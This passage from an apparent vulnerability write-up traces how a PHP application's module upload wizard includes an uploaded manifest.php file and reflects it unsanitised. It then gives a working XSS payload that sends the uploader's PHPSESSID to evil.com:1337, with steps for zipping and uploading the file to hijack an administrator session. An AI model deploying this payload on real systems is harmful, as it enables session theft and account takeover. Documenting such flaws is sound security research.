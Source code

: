Back at upload.php, if we look at the line immediately following the scanFile() call - we see that the application checks to see if $fileIssues contains any issues and breaks accordingly. Since our issues array is empty, we do not break here like we probably should.


```PHP
# upload.php Line 128
$fileIssues = $ms->scanFile($manifest_file);
if (!empty($fileIssues)) {
	$out .= '<h2>' . translate('ML_MANIFEST_ISSUE', 'Administration') . '</h2><br>';
	$out .= $ms->getIssuesLog();
	break;
}
```


List is called to assign multiple values returned from the MSLoadManifest function with argument of $manifest_file (which contains our manifest.php file)


```PHP
# upload.php Line 134
list($manifest, $installdefs) = MSLoadManifest($manifest_file);
```

Reviewing MSLoadManifest method, we see a major problem. This file is passed directly to an include statement. This explains why we are seeing our file contents reflected back to us - the application is including the contents of the file which is then being returned to us in the server response!


```PHP
# ModuleScanner.php Line 961
function MSLoadManifest($manifest_file)
{
    include($manifest_file);
    return array($manifest, $installdefs);
}
```

There is significant validation logic in the module scanner that makes it challenging to use this to execute arbitrary PHP code inside of the manifest.php file. There is, however, no logic that sanitizes HTML tags contained within the manifest file. Since we can reflect the contents of our manifest file directly into the page that is returned by the server - we can craft a manifest.php file that carries out a reflected XSS attack.

This time, we add a Javascript snippet to our manifest.php file that will extract the PHPSESSID from the user who uploads the malicious package and sends it over to our callback endpoint.
```Javascript
<script>const getCookieValue=(name)=>(document.cookie.match("(^|;)\\s*" + name + "\\s*=\\s*([^;]+)")?.pop() || "");fetch("http://evil.com:1337/drop?c=" + getCookieValue("PHPSESSID"))</script>
```

Save this file as 'manifest.php' and compress it into an archive which is required to pass the first round of validations.
`zip evil.zip manifest.php`

Upload the zip to the UpgradeWizard by clicking the 'Upload Package' button after selecting our zip file. You should see a callback on the attacker infrastructure containing the session token of the user who uploaded the package. Using that PHPSESSID token - we can hijack the administrator's session.
